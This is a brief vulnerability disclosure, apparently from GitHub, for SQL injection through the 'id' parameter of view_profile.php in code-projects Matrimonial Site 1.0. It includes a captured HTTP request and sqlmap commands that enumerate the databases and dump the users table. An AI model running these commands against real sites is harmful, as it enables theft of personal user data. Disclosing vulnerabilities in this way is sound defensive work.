# tesc
Vulnerability Report: SQL Injection in code-projects Matrimonial Site 1.0
## Affected Component
- **File**: `/view_profile.php?id=1`
- **Vulnerability**: SQL Injection via the `id` parameter.

---

## Captured HTTP Request
```http
GET /view_profile.php?id=1 HTTP/1.1
Host: localhost
sec-ch-ua: "Not?A_Brand";v="99", "Chromium";v="130"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/search-id.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=pvm9s24kls26lgqj0730spgclj
Connection: keep-alive
---
Using sqlmap tool:

python sqlmap.py -r 1 -p id --batch --dbs
python sqlmap.py -r 1 -p id --batch -D matrimony
python sqlmap.py -r 1 -p id --batch -D matrimony -tables
python sqlmap.py -r 1 -p id --batch -D matrimony -T users --dump
This will lead to leakage of user information.
